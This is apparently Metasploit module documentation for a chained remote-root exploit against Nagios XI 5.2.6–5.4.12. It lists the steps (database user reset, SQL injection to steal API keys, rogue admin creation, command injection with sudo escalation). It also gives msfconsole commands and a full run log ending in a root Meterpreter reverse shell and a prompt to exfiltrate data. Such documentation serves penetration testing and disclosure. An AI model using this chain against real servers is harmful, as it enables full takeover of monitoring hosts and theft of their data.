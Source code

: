 ## Vulnerable Application
	Nagios XI 5.2.6 - 5.4.12 Chained Remote Root RCE

	This exploit combines many different vulnerabilities in Nagios XI to 
  gain remote root access to the affected host. The process is:

  1. Reset the database user to root.
  2. Exploit SQL injection to extract api keys.
  3. Use api key to add administrative user.
  4. Authenticate to application using newly added user.
  5. Exploit command injection and sudo misconfiguration 
     to get remote root shell.
  6. Remove added admin user, and reset database user.
 
  See [our blog post](http://blog.redactedsec.net/exploits/2018/04/26/nagios.html) for more information

## Verification Steps

  1. ```use exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### Nagios 5.2.7 on CentOS 6.7

```
msf > use exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo 
msf exploit(nagios_xi_chained_rce_2_electric_boogaloo) > set RHOST 69.4.20.6
RHOST => 69.4.20.6
msf exploit(nagios_xi_chained_rce_2_electric_boogaloo) > set LHOST 69.4.20.4
LHOST => 69.4.20.4
msf exploit(nagios_xi_chained_rce_2_electric_boogaloo) > exploit

[*] Started reverse TCP handler on 69.4.20.4:4444 
[*] STEP 0: Get Nagios XI version string.
[+] STEP 0: Found Nagios XI version: 5.4.10
[*] STEP 1: Setting Nagios XI DB user to root.
[*] STEP 1: Received a 302 Response. That's good!
[*] STEP 2: Exploiting SQLi to extract user API keys.
[*] STEP 2: Received a 302 Response. That's good!
[*] Found 1 unique api keys
[*] 40e54f81856f74bc7011022b745d6efd
[*] STEP 3: Using API Keys to add an administrative user...
[*] STEP 3: trying to add admin user with key 40e54f81856f74bc7011022b745d6efd
[+] Added user:pCdWMnnDdjFf password:SHtUJtiRLYTAZJ userid:3
[*] STEP 4.1: Authenticate as user pCdWMnnDdjFf with password SHtUJtiRLYTAZJ
[*] STEP 4.1: Get NSP and nagiosxi for login..
[*] STEP 4.1: login_nsp 1481a55bd9981a0eecfbf1bbedf79ad09fcb04822400c57813265c53dd2a7f1f 
[*] STEP 4.1: login_nagiosxi 57enou1blqbkma0flgmlm7bc07
[*] STEP 4.2: Authenticating...
[*] STEP 4.2: authed_nagiosxi q8lk1phgdu3md17u8ngm5431t2
[*] STEP 5.1: executing payload
[*] STEP 5.2: removing scripts from disc
[*] Command Stager progress - 100.00% done (701/701 bytes)
[*] STEP 6.1: Setting Nagios XI DB user to nagiosql.
[*] STEP 6.1: Received a 302 Response. That's good!
[*] STEP 6.2: deleting admin
[*] Sending stage (847604 bytes) to 69.4.20.6
[*] Meterpreter session 1 opened (69.4.20.4:4444 -> 69.4.20.6:58698) at 2018-04-30 21:56:47 -0400
[*] Be sure to run post/linux/gather/enum_nagios_xi to exfil all the data off this box!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
